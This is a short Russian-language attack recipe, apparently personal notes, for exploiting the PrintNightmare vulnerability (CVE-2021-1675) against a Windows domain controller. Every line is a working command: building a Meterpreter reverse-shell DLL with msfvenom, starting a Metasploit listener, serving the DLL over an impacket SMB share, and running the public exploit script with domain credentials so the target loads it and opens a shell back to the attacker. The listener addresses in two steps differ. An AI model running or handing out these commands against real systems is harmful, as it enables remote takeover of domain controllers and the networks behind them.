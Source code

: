 

Создаем файл с полезной нагрузкой
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=100.100.93.222 LPORT=6655 -f dll -o /tmp/unl.dll

Открывает слушателя metasploit
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 100.100.2.252
set LPORT 6655
run

Создаем смб сервер
impacket-smbserver tmp /tmp -smb2support

Запускаем скрипт  (https://github.com/cube0x0/CVE-2021-1675)
python3 CVE-2021-1675.py name_domain_controller.name_domain/User:123456@10.10.0.12 '\\100.100.2.252\tmp\unl.dll'